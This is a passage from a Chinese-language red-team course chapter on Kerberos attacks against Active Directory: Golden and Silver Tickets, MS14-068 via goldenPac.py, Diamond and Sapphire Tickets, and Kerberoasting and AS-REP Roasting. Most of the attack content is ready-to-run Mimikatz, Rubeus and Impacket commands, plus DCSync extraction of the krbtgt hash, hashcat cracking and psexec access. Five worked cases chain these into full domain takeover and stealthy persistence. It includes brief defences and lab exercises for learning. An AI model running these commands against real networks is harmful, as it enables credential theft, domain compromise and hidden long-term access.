- `/krbtgt`：krbtgt的NTLM Hash
- `/ptt`：Pass-the-Ticket，直接导入内存
- `/ticket`：保存成文件（不写/ptt就保存）

**用Impacket的ticketer.py：**
```bash
ticketer.py -nthash aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -domain-sid S-1-5-21-123456789-123456789-123456789 -domain corp.com administrator
```

**用Rubeus：**
```powershell
Rubeus.exe golden /user:Administrator /domain:corp.com /sid:S-1-5-21-xxx /krbtgt:hash /ptt
```

### 8.3 怎么用？

**导入票据之后：**
- 你就拥有了伪造用户的权限
- 可以访问任何服务
- 可以用PsExec、WMI等访问任何机器

**例子：**
```bash
# 导入黄金票据后，直接访问域控的C盘
dir \\dc01.corp.com\c$

# 用PsExec登录域控
psexec.exe \\dc01.corp.com cmd.exe

# 或者用wmiexec
wmiexec.py corp.com/Administrator@dc01.corp.com -k -no-pass
```

（-k 表示用Kerberos认证，-no-pass 不用密码）

### 8.4 黄金票据的特点

**优点：**
- 权限最高，想访问什么就访问什么
- 不需要知道任何用户的密码
- 只要krbtgt不改密码就有效（通常很久才改一次）
- 可以伪造任意用户

**缺点：**
- 需要拿到krbtgt的Hash（通常要先拿下域控）
- 需要知道域SID
- TGT有有效期，过期了要重新造

**检测：**
- 监控异常的TGT请求
- 监控不存在的用户的认证
- 定期更换krbtgt密码（建议每年至少换一次）

> 💡 **深入理解：为什么 krbtgt 这个账号这么"神圣"？——Kerberos信任的"根"**
>
> 很多同学知道"拿到krbtgt Hash就能做黄金票据"，
> 但不理解为什么krbtgt这么特殊。
>
> krbtgt账号的密码Hash是整个Kerberos信任体系的"根密钥"。
> 它在整个域安全中的地位，类似SSL证书体系中的"根CA证书"：
>
> ```
> Kerberos信任链：
> 
> krbtgt的密码Hash（只有域控知道，永不泄露！）
>     │
>     └── 用于加密所有用户的TGT
>              │
>              └── TGT包含用户身份和会话密钥
>                       │
>                       └── 用户用TGT去换ST
>                                │
>                                └── ST用于访问具体服务
>
> 如果 krbtgt Hash泄露：
>     1. 攻击者可以伪造任意用户的TGT
>     2. 有了假TGT → 申请任意服务的ST → 访问任意服务
>     3. 整个域的认证体系崩溃！
>     4. 即使所有用户改密码都没用！因为TGT不依赖用户密码！
> ```
>
> 就像银行金库的总钥匙：
> - 有了用户密码 = 能开一个保险柜
> - 有了krbtgt Hash = 能打开金库里所有保险柜！
>
> 更可怕的是：
> - krbtgt密码极少改动（通常一年一次，甚至从不改）
> - 改了krbtgt密码，之前的所有TGT全部失效（影响业务）
> - 所以要改需要"双重密码轮回"（改两次，中间等TGT过期）
>
> **这就是为什么域渗透的终极目标之一就是拿到krbtgt的Hash。**

---

## 🔥 攻击4：白银票据（Silver Ticket）

### 9.1 原理

**什么是白银票据？**

攻击者拿到了 **某个服务账号的密码Hash**，
就可以自己**伪造这个服务的ST**。
因为ST是用服务账号的Hash加密的，
有了服务账号的Hash，
想造什么ST就造什么ST。

**为什么叫白银票据？**
相对于黄金票据（最高权限），
白银票据只能访问特定服务，
权限低一些，
所以叫白银。

**和黄金票据的区别：**
- 黄金票据：伪造TGT → 能访问所有服务
- 白银票据：伪造ST → 只能访问特定服务

**攻击条件：**
1. 拿到服务账号的NTLM Hash
2. 知道SPN
3. 知道域名、域SID

**怎么拿服务账号的Hash？**
- Kerberoasting爆破出来
- 从服务器上抓
- 配置文件里找
- 等等...

### 9.2 怎么造白银票据？

**用Mimikatz：**
```
kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-123456789-123456789-123456789 /target:sql01.corp.com /service:MSSQLSvc /rc4:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa /ptt
```

参数说明：
- `/user`：伪造的用户名
- `/domain`：域名
- `/sid`：域SID
- `/target`：目标服务器（SPN的主机部分）
- `/service`：服务类型（SPN的服务类部分）
- `/rc4`：服务账号的NTLM Hash（RC4加密用的）
- `/ptt`：导入内存
- 注意：白银票据也用kerberos::golden命令，参数不同而已

**用Rubeus：**
```powershell
Rubeus.exe silver /service:MSSQLSvc /target:sql01.corp.com /rc4:hash /user:Administrator /domain:corp.com /sid:S-1-5-21-xxx /ptt
```

### 9.3 白银票据的特点

**优点：**
- 不需要和域控通信（完全离线伪造）
- 更隐蔽，域控上没有日志
- 只要服务账号密码不改就有效
- 只需要服务账号的Hash，不需要krbtgt的

**缺点：**
- 只能访问特定服务
- 不能用来申请其他服务的票据

**为什么更隐蔽？**
- 黄金票据需要用TGT去TGS换ST，会和域控通信
- 白银票据直接伪造ST，不用和域控通信
- 直接发给服务端，域控不知道这事
- 所以更难检测

**常见的服务和SPN：**

| 服务 | SPN服务类 | 用途 |
|------|-----------|------|
| 主机管理 | HOST | 访问C$、IPC$、计划任务等 |
| 文件共享 | CIFS | 访问共享文件夹 |
| WMI | HOST/RPCSS | WMI远程执行 |
| WinRM | HTTP/WSMan | WinRM远程管理 |
| MSSQL | MSSQLSvc | SQL Server数据库 |
| LDAP | LDAP | LDAP查询 |
| RDP | TERMSRV | 远程桌面 |

比如，
你伪造了HOST服务的ST，
就可以访问目标机器的C盘共享、
用PsExec执行命令等。

### 9.4 防御方法

1. **强密码**：服务账号用强密码
2. **托管服务账号**：密码定期自动更换
3. **服务账号权限最小化**
4. **监控异常的服务票据**

**图54-5 黄金票据 vs 白银票据对比图**



---

## 🔥 攻击5：MS14-068（Pac漏洞）

### 10.1 原理

**什么是MS14-068？**

MS14-068是一个Kerberos漏洞，
也叫 **Pac漏洞**。
CVE编号：CVE-2014-6324

**漏洞原理：**
PAC（特权属性证书）里有用户的权限信息，
PAC有两个校验和，
一个是MD5的，一个是HMAC的。
但是KDC在验证的时候，
只检查了MD5校验和，
没有检查HMAC签名。

而MD5校验和是可以
由客户端自己算的。
所以攻击者可以：
1. 先申请一个普通用户的TGT
2. 修改TGT里的PAC，把自己加成域管理员
3. 重新计算MD5校验和
4. 用这个修改过的TGT去申请ST
5. KDC验证MD5校验和通过（因为是自己算的）
6. 给攻击者发一个有域管理员权限的ST
7. 攻击者用这个ST就拥有了域管理员权限

**图54-6 MS14-068（PAC漏洞）利用流程图**



**影响：**
- 普通域用户直接提权到域管理员
- 非常严重的漏洞

**影响版本：**
- Windows Server 2003
- Windows Server 2008
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2
- 2014年11月补丁修复

### 10.2 利用条件

1. 有一个普通域用户账号
2. 域控没有打MS14-068补丁
3. 知道域控的名字和IP

### 10.3 怎么利用？

**用kekeo（ms14-068模块）：**
```bash
# 生成票据
ms14-068.exe -u user1@corp.com -p Password123 -s S-1-5-21-123456789-123456789-123456789 -d dc01.corp.com

# 会生成一个TGT票据文件
```

**然后用Mimikatz导入：**
```
kerberos::ptt TGT_user1@corp.com.kirbi
```

**或者用Impacket的goldenPac.py：**
```bash
goldenPac.py corp.com/user1:Password123@dc01.corp.com
```
这个脚本会自动利用漏洞，
然后给你一个System权限的Shell。

**利用之后：**
- 你就有了域管理员权限
- 可以访问域控、DCSync等
- 相当于直接拿下域控

### 10.4 防御方法

1. **打补丁！打补丁！打补丁！**（重要的事说三遍）
2. KB3011780就是修复这个漏洞的补丁
3. 这个漏洞很老了，新系统一般都有补丁
4. 但老环境里可能还存在

---

## 💎 钻石票据与蓝宝石票据

### 11.1 钻石票据（Diamond Ticket）

**什么是钻石票据？**

钻石票据是一种
更高级的票据伪造技术，
是黄金票据的升级版。

**原理：**
1. 先向KDC请求一个真实的TGT
2. 修改TGT里的PAC（比如把自己加成域管）
3. 用krbtgt的Hash重新加密TGT
4. 这样就有了一个"真实"的TGT，但权限被改了

**和黄金票据的区别：**

| 对比项 | 黄金票据 | 钻石票据 |
|--------|----------|----------|
| **TGT来源** | 完全伪造 | 基于真实TGT修改 |
| **票据完整性** | 完全自己造 | 有真实的部分 |
| **检测难度** | 相对容易 | 更难检测 |
| **需要什么** | krbtgt的Hash | krbtgt的Hash + 真实TGT |

**为什么叫钻石票据？**
因为更高级、更闪亮（更难检测）。

**钻石票据的优势：**
- 更难检测，因为有真实的票据结构
- 可以利用真实票据的某些属性
- 更隐蔽

### 11.2 蓝宝石票据（Sapphire Ticket）

蓝宝石票据是比钻石票据
更高级的一种技术，
也叫 **Sapphire Ticket**。

它利用了
**Kerberos的授权数据**
的一些特性，
更加隐蔽，
更难检测。

这个比较高级，
了解一下就行。

### 11.3 这些票据的关系

从低到高：
- 白银票据（Silver）→ 特定服务
- 黄金票据（Golden）→ 所有服务
- 钻石票据（Diamond）→ 更隐蔽的黄金票据
- 蓝宝石票据（Sapphire）→ 更隐蔽的钻石票据

越往上越高级、越隐蔽，
但也越复杂。

实际中最常用的还是
黄金票据和白银票据，
后面两个了解概念就行。

**图54-7 各类票据攻击对比与升级关系图**



---

## 🛠️ Kerberos工具汇总

### 12.1 常用工具

| 工具 | 平台 | 功能 |
|------|------|------|
| **Mimikatz** | Windows | 抓票据、造票据、PtT、PtH等 |
| **Rubeus** | Windows | Kerberos各种操作，C#写的 |
| **kekeo** | Windows | Kerberos攻击工具集 |
| **Impacket套件** | Linux/Windows | GetUserSPNs、GetNPUsers、ticketer等 |
| **BloodHound** | 跨平台 | 找可攻击的用户和路径 |
| **Hashcat** | 跨平台 | 爆破票据密码 |
| **John the Ripper** | 跨平台 | 爆破票据密码 |

### 12.2 Rubeus常用命令

Rubeus是C#写的Kerberos工具，
非常强大，
也比较容易免杀。

**常用命令：**

```powershell
# 列出当前票据
Rubeus.exe klist

# 导出所有票据
Rubeus.exe dump /service:krbtgt

# 导入票据
Rubeus.exe ptt /ticket:ticket.kirbi

# AS-REP Roasting
Rubeus.exe asreproast /format:hashcat

# Kerberoasting
Rubeus.exe kerberoast /format:hashcat

# 造黄金票据
Rubeus.exe golden /user:admin /domain:corp.com /sid:S-1-5-21-xxx /krbtgt:hash /ptt

# 造白银票据
Rubeus.exe silver /service:CIFS /target:server01 /rc4:hash /user:admin /ptt

# 重置票据
Rubeus.exe purge
```

### 12.3 Mimikatz Kerberos相关命令

```
# 列出票据
kerberos::list

# 导出票据
kerberos::list /export

# 导入票据
kerberos::ptt ticket.kirbi

# 清除票据
kerberos::purge

# 黄金票据
kerberos::golden /user:admin /domain:corp.com /sid:S-1-5-21-xxx /krbtgt:hash /ptt

# 白银票据
kerberos::golden /user:admin /domain:corp.com /sid:S-1-5-21-xxx /target:server /service:CIFS /rc4:hash /ptt

# TGT解密（需要krbtgt hash）
kerberos::tgt

# DCSync
lsadump::dcsync /domain:corp.com /user:krbtgt
```

---

## 🎯 真实案例

### 案例1：Kerberoasting拿下SQL服务器

**场景：**
拿到了一个普通域用户账号，
权限很低。
发现有几个服务账号，
尝试Kerberoasting。

**步骤：**

**第一步：找有SPN的用户**
```bash
# 用Impacket
GetUserSPNs.py corp.com/user1:Password123 -dc-ip 10.0.0.1
```
发现了几个服务账号：
- mssql_svc（MSSQL服务）
- iis_svc（IIS服务）
- sccm_svc（SCCM服务）

**第二步：请求服务票据**
```bash
GetUserSPNs.py corp.com/user1:Password123 -dc-ip 10.0.0.1 -request -outputfile hashes.txt
```

**第三步：离线爆破**
```bash
hashcat -m 13100 hashes.txt rockyou.txt
```
爆破成功！
mssql_svc的密码是：`SQL@2023!`

**第四步：用服务账号登录**
```bash
# 看看mssql_svc有什么权限
# 发现它是SQL服务器的本地管理员

# 登录SQL服务器
psexec.py corp/mssql_svc:'SQL@2023!'@sql01.corp.com
```
成功拿到SQL服务器的System权限！

**第五步：继续提权**
- 在SQL服务器上抓凭据
- 发现有域管理员登录过
- 抓到域管理员的Hash
- 用域管理员Hash登录域控
- 拿下整个域！

**总结：**
- Kerberoasting是非常有效的提权方法
- 只要有一个普通域用户就能做
- 服务账号往往权限很高
- 密码弱的话很容易被攻破

---

### 案例2：黄金票据维持域权限

**场景：**
通过某个漏洞拿下了域控，
导出了所有Hash。
想长期维持域管理员权限，
用黄金票据。

**步骤：**

**第一步：导出krbtgt的Hash**
```bash
# DCSync导出
secretsdump.py corp.com/administrator@dc01.corp.com -just-dc-user krbtgt
```
得到krbtgt的NTLM Hash。

**第二步：记录域信息**
- 域名：corp.com
- 域SID：S-1-5-21-123456789-123456789-123456789
- krbtgt Hash：aaaabbbbccccddddeeeeffffgggghhhh

**第三步：需要的时候造黄金票据**
以后任何时候想访问域内资源，
直接造一张黄金票据：
```
kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:aaaabbbbccccddddeeeeffffgggghhhh /ptt
```

**第四步：用票据访问**
```bash
# 访问域控
dir \\dc01.corp.com\c$

# 执行命令
psexec.exe \\dc01.corp.com cmd.exe
```

**为什么用黄金票据维持权限？**
- 不需要改密码、加账号
- 不容易被发现
- 只要krbtgt不改密码就有效
- 非常隐蔽

**总结：**
- 黄金票据是权限维持的利器
- 拿到krbtgt Hash就等于控制了整个域
- 护网行动中非常实用

---

### 案例3：白银票据访问特定服务器

**场景：**
通过Kerberoasting
拿到了Web服务器服务账号的Hash，
想访问这台Web服务器，
但不想和域控通信（怕被检测）。

**步骤：**

**第一步：确认信息**
- 服务账号：iis_svc
- 服务账号Hash：aaaabbbbccccddddeeeeffffgggghhhh
- 目标服务器：web01.corp.com
- 想要的权限：管理员权限（HOST/CIFS服务）

**第二步：造白银票据**
```
kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-123456789-123456789-123456789 /target:web01.corp.com /service:CIFS /rc4:aaaabbbbccccddddeeeeffffgggghhhh /ptt
```

**第三步：访问服务器**
```cmd
# 访问C盘共享
dir \\web01.corp.com\c$

# 还可以造HOST服务的票据，用PsExec
# 再造一个HOST的
kerberos::golden ... /service:HOST /ptt

# PsExec执行命令
psexec.exe \\web01.corp.com cmd.exe
```

**为什么用白银票据？**
- 不需要和域控通信
- 域控上没有日志
- 更隐蔽
- 适合需要隐蔽的场景

**总结：**
- 白银票据适合访问特定服务器
- 不需要经过域控，更隐蔽
- 只要有服务账号Hash就能用

---

### 案例4：AS-REP Roasting获取用户密码

**场景：**
刚进内网，
什么凭据都没有。
先扫一下有没有
AS-REP Roasting的目标。

**步骤：**

**第一步：找可攻击的用户**
```bash
# 用Impacket的GetNPUsers
# 先试试能不能枚举用户（不需要认证的话）
GetNPUsers.py corp.com/ -dc-ip 10.0.0.1 -usersfile users.txt
```
（users.txt是常见用户名列表）

或者如果有个普通账号的话：
```powershell
# 用PowerView查
Get-DomainUser -PreauthNotRequired
```

发现有个用户 `testuser` 没有预认证。

**第二步：请求AS-REP**
```bash
GetNPUsers.py corp.com/testuser -dc-ip 10.0.0.1 -outputfile asrep.txt
```

**第三步：爆破**
```bash
hashcat -m 18200 asrep.txt rockyou.txt
```
成功爆破出密码！

**第四步：用这个密码继续攻击**
- 有了域用户账号
- 就可以做Kerberoasting
- 可以收集域信息
- 可以进一步横向移动

**总结：**
- AS-REP Roasting是获取初始访问的好方法
- 不需要任何凭据就能做（如果能枚举用户）
- 老环境中经常能找到

---

### 案例5：MS14-068从普通用户到域控

**场景：**
拿到了一个普通域用户账号，
域控是Windows Server 2008 R2，
没打MS14-068补丁。

**步骤：**

**第一步：确认补丁情况**
（可以通过版本、扫描等方式判断）

**第二步：利用漏洞**
```bash
# 用goldenPac.py
goldenPac.py corp.com/user1:Password123@dc01.corp.com
```

脚本会自动：
1. 申请TGT
2. 修改PAC，加进域管理员组
3. 重新计算校验和
4. 用修改后的TGT申请ST
5. 用ST执行PsExec
6. 返回一个System Shell

**第三步：拿到域控权限**
- 直接得到了域控的System权限
- 可以导出所有Hash
- 可以做任何事

**总结：**
- MS14-068是一个很严重的漏洞
- 普通用户直接变域管理员
- 虽然很老了，但老环境里可能还存在
- 打补丁很重要！

---

## ✏️ 课后习题

### 一、选择题（15道）

1. Kerberos协议中，KDC的两个组成部分是？
   A. AS和TGS
   B. AS和ST
   C. TGT和ST
   D. SPN和PAC

2. TGT是用什么加密的？
   A. 用户密码Hash
   B. 服务账号密码Hash
   C. krbtgt账号密码Hash
   D. 会话密钥

3. ST是用什么加密的？
   A. 用户密码Hash
   B. 服务账号密码Hash
   C. krbtgt账号密码Hash
   D. 会话密钥

4. Kerberos认证的三大步骤，正确的顺序是？
   A. TGS交换 → AS交换 → AP交换
   B. AS交换 → TGS交换 → AP交换
   C. AP交换 → AS交换 → TGS交换
   D. AS交换 → AP交换 → TGS交换

5. SPN的中文意思是？
   A. 票据授权票据
   B. 服务主体名称
   C. 特权属性证书
   D. 服务票据

6. PAC的作用是？
   A. 加密票据
   B. 存储用户权限信息
   C. 验证用户身份
   D. 生成会话密钥

7. AS-REP Roasting的前提条件是？
   A. 有服务账号的Hash
   B. 用户关闭了预认证
   C. 有krbtgt的Hash
   D. 域控没打补丁

8. Kerberoasting攻击的目标是？
   A. 所有域用户
   B. 有SPN的服务账号
   C. 域管理员
   D. krbtgt账号

9. 黄金票据需要什么才能伪造？
   A. 用户密码Hash
   B. 服务账号密码Hash
   C. krbtgt账号密码Hash
   D. 只需要用户名

10. 白银票据和黄金票据的主要区别是？
    A. 白银票据只能访问特定服务
    B. 白银票据权限更高
    C. 白银票据需要krbtgt的Hash
    D. 白银票据更容易被检测

11. 以下哪种攻击不需要和域控通信？
    A. 黄金票据
    B. Kerberoasting
    C. 白银票据
    D. AS-REP Roasting

12. MS14-068漏洞利用的是什么？
    A. TGT加密算法弱
    B. PAC校验和验证问题
    C. 预认证可以关闭
    D. 服务账号密码弱

13. Hashcat中，Kerberoasting的爆破模式号是？
    A. 1000
    B. 13100
    C. 18200
    D. 5500

14. 钻石票据是哪种票据的升级版？
    A. 白银票据
    B. 黄金票据
    C. 两者都是
    D. 两者都不是

15. Kerberos的默认端口是？
    A. 88
    B. 389
    C. 445
    D. 636

### 二、填空题（5道）

1. Kerberos的三大交换是 ______ 交换、______ 交换、______ 交换。

2. TGT的中文全称是 ______，ST的中文全称是 ______。

3. 黄金票据需要 ______ 账号的Hash，白银票据需要 ______ 账号的Hash。

4. AS-REP Roasting攻击利用的是用户关闭了 ______ 的特性。

5. MS14-068漏洞也叫 ______ 漏洞，CVE编号是 ______。

### 三、简答题（5道）

1. 简述Kerberos认证的完整流程（三大交换）。
2. 什么是Kerberoasting？它的原理是什么？
3. 黄金票据和白银票据有什么区别？
4. 什么是AS-REP Roasting？它和Kerberoasting有什么区别？
5. 什么是PAC？它在Kerberos中起什么作用？

### 四、实操题（3道）

1. 在实验环境中，练习Kerberoasting攻击（用Rubeus或Impacket）。
2. 在实验环境中，练习制作和使用黄金票据。
3. 在实验环境中，练习制作和使用白银票据。

---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了
Kerberos协议和各种攻击方法，
内容非常多，
也比较绕，
需要好好消化。

**重点回顾：**

1. **Kerberos基础**
   - 三个角色：客户端、KDC、服务端
   - TGT、ST、SPN、PAC、会话密钥等概念
   - 这些概念一定要搞清楚

2. **三大交换**
   - AS交换：拿TGT
   - TGS交换：拿ST
   - AP交换：访问服务
   - 每一步谁发给谁、发了什么、用什么加密
   - 理解了流程，攻击方法自然就懂了

3. **AS-REP Roasting**
   - 原理：用户关了预认证 → 拿AS-REP → 离线爆破
   - 条件：用户不需要预认证
   - 工具：GetNPUsers、Rubeus
   - Hashcat模式：18200

4. **Kerberoasting**
   - 原理：普通用户可以请求任何服务的ST → 拿ST → 离线爆破服务账号
   - 条件：普通域用户 + 服务账号有SPN
   - 工具：GetUserSPNs、Rubeus
   - Hashcat模式：13100
   - 非常常用的攻击方法

5. **黄金票据（Golden Ticket）**
   - 原理：有krbtgt的Hash → 伪造TGT → 访问任何服务
   - 条件：krbtgt的Hash + 域SID
   - 权限：域内最高权限
   - 工具：Mimikatz、Rubeus、ticketer.py

6. **白银票据（Silver Ticket）**
   - 原理：有服务账号的Hash → 伪造ST → 访问特定服务
   - 条件：服务账号的Hash + SPN
   - 权限：只能访问特定服务
   - 特点：不用和域控通信，更隐蔽

7. **MS14-068（Pac漏洞）**
   - 原理：PAC校验和验证问题 → 普通用户伪造权限
   - 影响：普通用户直接提权到域管理员
   - 很老的漏洞，但老环境可能还有
   - 打补丁就好

8. **钻石/蓝宝石票据**
   - 更高级的票据伪造技术
   - 更隐蔽，更难检测
   - 了解概念就行

9. **工具汇总**
   - Mimikatz、Rubeus、kekeo
   - Impacket套件
   - Hashcat、John
   - BloodHound

10. **五个实战案例**
    - Kerberoasting提权
    - 黄金票据权限维持
    - 白银票据隐蔽访问
    - AS-REP Roasting获取初始访问
    - MS14-068直接拿域控

Kerberos是域渗透的核心，
各种攻击方法都和它有关。
这一章内容比较难，
建议多看几遍，
最好在实验环境里
亲手操作一遍。

下一章我们学习
域渗透常用攻击，
更全面地了解
各种域渗透方法。

继续加油！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day059-senior-活动目录基础)
- [➡️ 下一章：---](/redteam/day061-senior-域渗透常用攻击)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
